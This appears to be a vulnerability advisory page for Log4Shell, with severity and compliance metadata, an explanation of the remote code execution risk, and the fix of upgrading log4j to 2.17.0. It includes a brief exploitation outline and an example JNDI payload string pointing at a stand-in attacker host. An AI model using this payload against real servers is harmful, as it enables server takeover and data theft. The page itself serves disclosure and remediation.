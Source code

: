 ```yaml
---
name: Log4Shell
severity: high
cvss-score: 10.0
cvss-vector: CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:C/C:H/I:H/A:H
cwe-id: ''
cwe-name: ''
compliance:
  ISO 27001: A.5.33, A.5.34, A.8.3, A.8.9, A.8.12
  owasp10: A3
  pci: 6.5.1

---            
```


A remote code execution vulnerability (RCE) allows the attacker to execute arbitrary code and operating system commands on the server. In the worst-case scenario, the attacker will be able to fully compromise the server, extract sensitive data, modify the application contents or delete data.

The log4j RCE vulnerability can be easily exploited. All you need is to find a vulnerable version of log4j, an endpoint with any protocol (HTTP, TCP, etc) that allows an attacker to send the exploit string (e.g. ${jndi:ldap://attacker.com/a}), and a log statement that logs out the string from that request.

## How to fix

{% tabs log4shell %}
{% tab log4shell generic %}
To fix the Log4Shell vulnerability, you need to update all instances of log4j to version 2.17.0 or above.
{% endtab %}

{% endtabs %}
